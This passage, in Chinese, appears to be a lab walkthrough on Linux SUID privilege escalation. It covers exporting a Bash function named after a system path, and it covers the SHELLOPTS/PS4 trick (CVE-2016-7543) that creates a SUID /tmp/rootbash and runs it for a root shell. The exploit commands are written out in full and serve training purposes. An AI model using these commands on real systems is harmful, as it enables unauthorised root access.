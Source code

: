 ![image-20221011193930661](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20221011193930661.png)

在 Bash 版本 < 4.2-048中，可以定义名称类似于文件路径的shell 函数（将文件路径当做函数名），然后导出函数，以便在该文件路径中使用它，而不是使用其他任何实际的可执行文件。

验证安装在目标机上的 Bash 版本是否小于4.2-048:

```shell
/bin/bash --version
```

![image-20221011194025350](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20221011194025350.png)

创建一个 shell函数，名称为"/usr/sbin/service"(创建函数，顶替真实路径)，作用是执行一个新的 Bash shell(使用-p 保留权限)，然后导出这个函数:

```shell
function /usr/sbin/service { /bin/bash -p; }  #创建函数，函数名为 "/usr/sbin/service"
export -f /usr/sbin/service                   #导出函数
```

运行SUID可执行文件suid-env2以获得root shell:

```shell
/usr/local/bin/suid-env2
```

![image-20221011194308225](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20221011194308225.png)

## SUID/SGID 可执行文件提权-滥用 Shell 特性(# 2)

4.4版本之前的Bash shell允许本地用户通过精心设计的SHELLOPTS 和 PS4环境变量执行具有 root 权限的任意命令（通过SUID可执行文件来赋予命令root权限）。

相关的cve链接：https://www.cvedetails.com/cve/CVE-2016-7543/

注意: 这不适用于4.4及以上版本的 Bash。

在调试（debugging ）模式下，Bash可以使用环境变量 PS4来显示调试语句的额外提示（我们可以利用这个额外提示，来执行任意命令）。

在启用 bash 调试的情况下运行SUID可执行文件/usr/local/bin/SUID-env2，并将 PS4变量设置为一个嵌入式命令，该命令的作用是创建/bin/bash 的 SUID 版本:

```shell
env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash)' /usr/local/bin/suid-env2
#Bash具有调试模式，可通过–x命令行选项开启，或者通过修改SHELLOPTS环境变量让它包括xtrace---以此启用调试模式
```

![image-20221011204256049](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20221011204256049.png)

在上一行命令执行成功后，会生成一个SUID版本的/bin/bash文件（也就是/tmp/rootbash），使用-p 运行这个/tmp/rootbash 可执行文件，以获得使用 root 权限运行的 shell：

```shell
/tmp/rootbash -p
```

![image-20221011204325765](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20221011204325765.png)

完成验证之后，删除/tmp/rootbash 可执行文件并退出升级后的 shell：

```shell
rm /tmp/rootbash
exit
```
